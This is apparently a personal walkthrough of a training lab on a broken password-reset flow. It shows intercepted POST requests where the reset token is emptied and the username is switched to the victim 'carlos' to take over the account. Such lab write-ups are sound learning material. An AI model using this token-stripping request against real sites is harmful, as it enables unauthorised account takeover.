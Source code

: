 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220509231023.png)

### Password reset broken logic
```bash

This lab's password reset functionality is vulnerable. To solve the lab, reset Carlos's password then log in and access his "My account" page.

-   Your credentials: `wiener:peter`
-   Victim's username: `carlos`

Capture traffic // leave intercept off
Forgot password
Check Email client
Change password
Go to: HTTP history

POST /forgot-password?temp-forgot-password-token=AXQ9SoqVFFbI3CQsZwynpLiSTdPDS73S HTTP/1.1

temp-forgot-password-token=AXQ9SoqVFFbI3CQsZwynpLiSTdPDS73S&username=wiener&new-password-1=peter&new-password-2=peter

Change to

POST /forgot-password?temp-forgot-password-token= HTTP/1.1

temp-forgot-password-token=&username=wiener&new-password-1=peter&new-password-2=peter

Returns

HTTP/1.1 302 Found

This means it accepts the POST request without the cookie

Repeat this step, but change the username to "carlos"

temp-forgot-password-token=&username=carlos&new-password-1=peter&new-password-2=peter

HTTP/1.1 302 Found

Log in as carlos:peter

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220509234958.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220509234942.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220509235029.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220509235418.png)
